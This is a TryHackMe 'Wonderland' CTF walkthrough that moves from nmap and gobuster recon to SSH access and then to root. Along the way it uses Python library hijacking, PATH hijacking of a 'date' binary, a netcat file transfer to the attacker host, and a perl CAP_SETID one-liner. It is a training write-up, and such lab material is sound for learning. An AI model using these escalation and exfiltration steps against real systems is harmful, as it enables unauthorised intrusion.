 # Wonderland

**Room Link:** [https://tryhackme.com/room/wonderland](https://tryhackme.com/room/wonderland)

## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

## TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

I can see I'm on the right track on the browser

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
gobuster dir -u http://$VICTIM/r/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
gobuster dir -u http://$VICTIM/r/a -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```



After a few letters I was able to just guess the word it's spelling out

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

## TCP/22 - SSH

**Kali**

```
ssh alice@$VICTIM
Pass: HowDothTheLittleCrocodileImproveHisShiningTail
```

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>



**Victim**

```
sudo -l
cat /home/alice/walrus_and_the_carpenter.py
```

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

Using the first command we can see the path it follows, we can see the first thing it will try is the current directory so we can make a random.py script of our own and put anything we want in it.

**Victim**

```
python3 -c 'import sys; print (sys.path)'
locate random.py
```

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
echo 'import os' > random.py
echo 'os.system("/bin/bash")' >> random.py
cat random.py
```

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

### Netcat

**Kali(receiving)**

```
nc -l -p 1234 > teaParty
```

**Victim(sending)**

```
nc -w 3 $KALI 1234 < teaParty
```

### Ghidra

I opened the file in Ghidra and can see that the program is running the date command which we see outputted when we run the script. But note that the date command isn't using the full path so if we add somewhere else in our path we can run our own date command instead.

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

I added tmp to my path

**Victim(rabbit)**

```
echo $PATH
export PATH=/tmp:$PATH
echo $PATH
```

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

I'm not the hatter

**Victim(rabbit)**

```
cd /tmp
echo '#!/bin/bash' > date
echo '/bin/bash' >> date
chmod +x date
cat date
/home/rabbit/teaParty 
```

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>





**Victim(hatter)**

We can just follow what's under capabilities but only the last command as CAP\_SETID is already set for perl.

**Exploit:** [https://gtfobins.github.io/gtfobins/perl/](https://gtfobins.github.io/gtfobins/perl/)

```
getcap -r / 2>/dev/null
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>















